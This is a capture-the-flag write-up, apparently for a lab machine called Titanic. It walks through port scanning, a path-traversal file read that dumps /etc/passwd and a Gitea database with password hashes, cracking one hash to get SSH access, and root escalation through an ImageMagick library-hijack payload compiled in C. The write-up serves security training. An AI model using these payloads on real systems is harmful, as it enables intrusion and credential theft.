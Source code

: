 1,Recon
port scan
```
nmap -sC -sV -Pn 10.10.11.55 -oN ./nmap.txt
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-16 11:19 AEDT
Nmap scan report for 10.10.11.55
Host is up (0.012s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 73:03:9c:76:eb:04:f1:fe:c9:e9:80:44:9c:7f:13:46 (ECDSA)
|_  256 d5:bd:1d:5e:9a:86:1c:eb:88:63:4d:5f:88:4b:7e:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://titanic.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: titanic.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.74 seconds
```
Page check
![[Screenshot 2025-02-16 at 11.25.07 AM.png]]
By using the ffuf to enumerate the web-contents, I can only find the `/book`, and nothing here.

But we can also find another sub-domain here `dev.titanic.htb`
![](images/Pasted%20image%2020250216112921.png)
And I can find the version of Gitea `Version: 1.22.1`
From `Exploit` label, we can find a public repository
![](images/Pasted%20image%2020250216113341.png)
Then we can find the source code of the main-domain service, and we can find the LFI for `/download`
![](images/Pasted%20image%2020250216113814.png)
We can try to prove it
http://titanic.htb/download?ticket=../../../../etc/passwd
Then we get the `/etc/passwd` file
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
developer:x:1000:1000:developer:/home/developer:/bin/bash
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
dnsmasq:x:114:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
_laurel:x:998:998::/var/log/laurel:/bin/false
```
In this place, developer would be our target here, we can try to get its `id_rsa`, but there is no id_rsa to get
So, let's try to get the `gitea.db` from the home template of developer
`curl "http://titanic.htb/download?ticket=../../../../../../../../../../home/developer/gitea/data/gitea/gitea.db" --output gitea.db`
Then we can get the hash of developer
```
sqlite> select * from user;
1|administrator|administrator||root@titanic.htb|0|enabled|cba20ccf927d3ad0567b68161732d3fbca098ce886bbc923b4062a3960d459c08d2dfc063b2406ac9207c980c47c5d017136|pbkdf2$50000$50|0|0|0||0|||70a5bd0c1a5d23caa49030172cdcabdc|2d149e5fbd1b20cf31db3e3c6a28fc9b|en-US||1722595379|1722597477|1722597477|0|-1|1|1|0|0|0|1|0|2e1e70639ac6b0eecbdab4a3d19e0f44|root@titanic.htb|0|0|0|0|0|0|0|0|0||gitea-auto|0
2|developer|developer||developer@titanic.htb|0|enabled|e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56|pbkdf2$50000$50|0|0|0||0|||0ce6f07fc9b557bc070fa7bef76a0d15|8bf3e3452b78544f8bee9400d6936d34|en-US||1722595646|1739647463|1739647463|0|-1|1|0|0|0|0|1|0|e2d95b7e207e432f62f3508be406c11b|developer@titanic.htb|0|0|0|0|2|0|0|0|0||gitea-auto|0
3|test|test||test@test.com|0|enabled|9dc4f953ea5319eaeb3ac3e50d253993198634870708bd794bd1efa6fd43de0ba112781df3809adfef01648f54211201e2eb|pbkdf2$50000$50|0|0|0||0|||46c8c984551f7de9b64ea4e6373e2b62|e4b82a344a4e3e4d3f98fda81ea1abfc|en-US||1739652077|1739652962|1739652962|0|-1|1|0|0|0|0|1|0|b642b4217b34b1e8d3bd915fc65c4452|test@test.com|0|0|0|0|0|0|0|0|0|unified|gitea-auto|0
4|abc|abc||abc@def.com|0|enabled|ad189d5a43407d4aa431db8821e420028a1610f24d05114e6dbd64021bdde0931a3532de8d99bdf12033cc86b09f3730f607|pbkdf2$50000$50|0|0|0||0|||165262c5ef766cfb880c2f65604241ab|b0e49dd381b0d68a693954d003106287|en-US||1739657270|1739658230|1739657270|0|-1|1|0|0|0|0|1|0|b188d046267bb5cddbc457580551297d|abc@def.com|0|0|0|0|0|0|0|0|0|unified|gitea-auto|0
5|admin1|admin1||admin1@titanic.htb|0|enabled|e0bb63860d33f22300e20a3f481ebaa9860c76ef5c6c5dc685ecd53d1c8d635a1f44f11b88230547209846b1373cd6770423|pbkdf2$50000$50|0|0|0||0|||64b82b0a562e6d38ba2f345eb5c491b3|8532b61d0f8eb41f47081e0ecadda6d2|en-US||1739663217|1739663217|1739663217|0|-1|1|0|0|0|0|1|0|1882b2110b401e1b49aaffb53a1782b2|admin1@titanic.htb|0|0|0|0|0|0|0|0|0||gitea-auto|0

```
By cracking this hash and we can get the password of developer `developer:25282528`
Then we can use ssh to get the user shell.

2, shell as root
Firstly I would like check the netstate and `sudo -l`
```
developer@titanic:~$ sudo -l
[sudo] password for developer: 
Sorry, user developer may not run sudo on titanic.
developer@titanic:~$ netstat -ntlp
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:45201         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:2222          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:5000          0.0.0.0:*               LISTEN      1167/python3        
tcp        0      0 127.0.0.1:3000          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      - 
```
Port 5000 is the flask service, port 3000 is the gitea docker image.

Come to `/opt/app/static/assets/images`
Then we can check the version of `ImageMagick`
```
developer@titanic:/opt/app/static/assets/images$ magick --version
Version: ImageMagick 7.1.1-35 Q16-HDRI x86_64 1bfce2a62:20240713 https://imagemagick.org
Copyright: (C) 1999 ImageMagick Studio LLC
License: https://imagemagick.org/script/license.php
Features: Cipher DPC HDRI OpenMP(4.5) 
Delegates (built-in): bzlib djvu fontconfig freetype heic jbig jng jp2 jpeg lcms lqr lzma openexr png raqm tiff webp x xml zlib
Compiler: gcc (9.4)

```
Then we can find the exploit of this version
```
https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8
Arbitrary Code Execution in `AppImage` version `ImageMagick`

```
So the payload would be 
```
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void __attribute__((constructor)) init() {
    system("cat /root/root.txt > /tmp/root.txt");
    exit(0);
}
EOF

magick /dev/null /dev/null

cat /tmp/root.txt
```